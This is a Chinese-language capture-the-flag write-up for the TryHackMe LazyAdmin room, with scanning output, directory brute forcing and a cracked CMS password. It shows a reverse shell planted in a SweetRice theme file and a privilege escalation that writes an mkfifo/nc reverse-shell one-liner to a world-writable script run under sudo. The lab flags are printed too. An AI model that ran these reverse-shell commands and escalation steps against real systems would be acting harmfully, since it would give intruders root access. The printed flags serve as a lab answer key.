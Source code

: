 #服务发现
```
┌──(root💀kali)-[~/tryhackme/LazyAdminFinal]
└─# nmap -sV -Pn 10.10.113.182 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 22:02 EDT
Nmap scan report for 10.10.113.182
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

#目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -u http://10.10.113.182 -e* -t 100                                                                                                                                                                           130 ⨯

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 6100

Error Log: /root/dirsearch/logs/errors-21-09-23_22-07-17.log

Target: http://10.10.113.182

[22:07:18] Starting: 
[22:07:39] 301 -  316B  - /content  ->  http://10.10.113.182/content/                                             
[22:07:42] 200 -   11KB - /index.html                                                                          

```

只有一个content目录，打开是一个```SweetRice```cms介绍页，继续爆破content目录
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -u http://10.10.113.182/content -e* -t 100 -w /usr/share/wordlists/Web-Content/directory-list-lowercase-2.3-medium.txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: get | Threads: 100 | Wordlist size: 207627

Error Log: /root/dirsearch/logs/errors-21-09-23_22-58-30.log

Target: http://10.10.113.182/content

[22:58:30] Starting: 
[22:58:31] 200 -    2KB - /content/
[22:58:34] 301 -  323B  - /content/images  ->  http://10.10.113.182/content/images/
[22:58:40] 301 -  319B  - /content/js  ->  http://10.10.113.182/content/js/
[22:58:44] 301 -  320B  - /content/inc  ->  http://10.10.113.182/content/inc/
[22:58:47] 301 -  319B  - /content/as  ->  http://10.10.113.182/content/as/
[22:58:48] 301 -  324B  - /content/_themes  ->  http://10.10.113.182/content/_themes/
[22:58:49] 301 -  327B  - /content/attachment  ->  http://10.10.113.182/content/attachment/

```

在```http://10.10.113.182/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql```找到备份的mysql语句，暴露了cms表名，一个登录凭证
```
用户名：manager
密码：42f749ade7f9e195bf475f37a44cafcb
```

md5密码破解出来是：```Password123```


```http://10.10.113.182/content/as/```是登陆页面

在```/content/license.txt```和```/inc/lastest.txt```验证cms的版本号是1.5.1，在kali搜索这个版本号的cms漏洞
```
┌──(root💀kali)-[~]
└─# searchsploit SweetRice 1.5.1
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                                                                                                                                                                 | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                                                                                                                                                                   | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                                                                                                                                                                       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                                                                                                                                                              | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                                                                                                         | php/webapps/40700.html
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

上传脚本需要一个登录凭证，使用上面找到的```manager:Password123```，使用40716.py攻击脚本，但是貌似上传不了文件


登录后台，在Theme,选择Footer section template，直接编辑php源码写反弹shell，访问```http://10.10.113.182/content/_themes/default/foot.php```成功反弹到shell，拿到user.txt
```
┌──(root💀kali)-[~/tryhackme/LazyAdminFinal]
└─# nc -lnvp 1234                                      
listening on [any] 1234 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.113.182] 46142
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 06:50:08 up  1:48,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /home
$ ls
itguy
$ cd itguy
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```

在同目录有一个backup.pl文件，源码内容是执行一个copy.sh文件
而copy.sh是可以编辑的
两个文件所有者是root，如果可以以root的身份执行一个```/etc/copy.sh```批处理文件，我们就可以使用该sh文件来提升到root
```
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f
$ ls -alh /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

#写shell
```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.21.169 4242 >/tmp/f" > /etc/copy.sh```

#切换tty,查看sudo -l，www-data正好可以用root权限执行/home/itguy/backup.pl
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ sudo /usr/bin/perl /home/itguy/backup.pl
sudo /usr/bin/perl /home/itguy/backup.pl

```

#与此同时另起一个端口监听，拿到root反弹shell和root.txt
```
┌──(root💀kali)-[~]
└─# nc -lnvp 4242                                                                                                                                                                                                                       1 ⨯
listening on [any] 4242 ...
connect to [10.13.21.169] from (UNKNOWN) [10.10.113.182] 33518
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```